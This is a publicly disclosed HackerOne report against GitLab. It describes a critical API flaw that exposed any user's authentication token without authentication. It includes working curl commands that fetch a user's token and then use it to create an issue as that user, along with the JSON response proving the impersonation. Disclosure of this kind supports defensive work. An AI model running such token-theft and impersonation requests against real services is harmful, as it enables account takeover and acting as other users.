 # all private tokens are leaked to an unauthenticated attacker

## Report Details
- **Report ID**: 268794
- **URL**: https://hackerone.com/reports/268794
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-09-15T22:13:20.680Z
- **Disclosed**: 2017-09-21T13:55:55.437Z

## Reporter
- **Username**: rpearl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Using the api, one can obtain the authentication token for any user on gitlab:
```
$ curl -s --request GET https://gitlab.com/api/v4/users/951422 | jq '.authentication_token'
"[redacted]"
```

We can then use this token to impersonate any user to perform any action they can perform:
```$ curl --request POST --header "PRIVATE-TOKEN: [redacted]" https://gitlab.com/api/v4/projects/3831210/issues?title=owned```

```
{"id":6843690,"iid":4,"project_id":3831210,"title":"owned","description":"","state":"opened","created_at":"2017-09-15T21:58:06.342Z","updated_at":"2017-09-15T21:58:06.342Z","labels":[],"milestone":null,"assignees":[],"author":{"id":951422,"name":"Andrew Drake","username":"adrake","state":"active","avatar_url":"https://secure.gravatar.com/avatar/5cd00179addefbca6d635845534a1ee6?s=80&d=identicon","web_url":"https://gitlab.com/adrake"},"assignee":null,"user_notes_count":0,"upvotes":0,"downvotes":0,"due_date":null,"confidential":false,"weight":null,"web_url":"https://gitlab.com/karmiclabs/slabricator/issues/4","time_stats":{"time_estimate":0,"total_time_spent":0,"human_time_estimate":null,"human_total_time_spent":null},"_links":{"self":"http://gitlab.com/api/v4/projects/3831210/issues/4","notes":"http://gitlab.com/api/v4/projects/3831210/issues/4/notes","award_emoji":"http://gitlab.com/api/v4/projects/3831210/issues/4/award_emoji","project":"http://gitlab.com/api/v4/projects/3831210"},"subscribed":true}
```



## Attachments
No attachments

